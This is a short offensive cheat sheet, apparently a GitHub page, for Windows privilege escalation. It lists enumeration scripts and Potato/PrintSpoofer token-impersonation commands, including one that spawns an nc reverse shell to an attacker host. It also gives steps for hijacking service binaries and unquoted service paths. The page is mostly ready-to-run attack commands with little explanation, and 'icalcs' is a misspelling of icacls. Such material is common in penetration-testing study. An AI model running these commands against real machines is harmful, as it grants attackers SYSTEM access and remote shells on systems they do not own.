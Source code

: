 ## Automated Scripts

```bash
winpeas.exe
winpeas.bat
Jaws-enum.ps1
powerup.ps1
PrivescCheck.ps1
```

## Token Impersonation

- Command to check `whoami /priv`

```powershell
#Printspoofer
PrintSpoofer.exe -i -c powershell.exe 
PrintSpoofer.exe -c "nc.exe <lhost> <lport> -e cmd"

#RoguePotato
RoguePotato.exe -r <AttackerIP> -e "shell.exe" -l 9999

#GodPotato
GodPotato.exe -cmd "cmd /c whoami"
GodPotato.exe -cmd "shell.exe"

#JuicyPotatoNG
JuicyPotatoNG.exe -t * -p "shell.exe" -a

#SharpEfsPotato
SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
#writes whoami command to w.log file
```

## Services

### Binary Hijacking

```powershell
#Identify service from winpeas
icalcs "path" #F means full permission, we need to check we have full access on the folder
sc qc <servicename> #find binary path variable
sc config <service> <option>="<value>" #change the path to the reverse shell location
sc start <servicename>
```

### Unquoted Service Path

```bash
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """  #Displays services which has missing quotes, this can slo be obtained by running WinPEAS
#Check the Writable path
icalcs "path"
#Insert the payload in writable location and which works.
sc start <servicename>
```
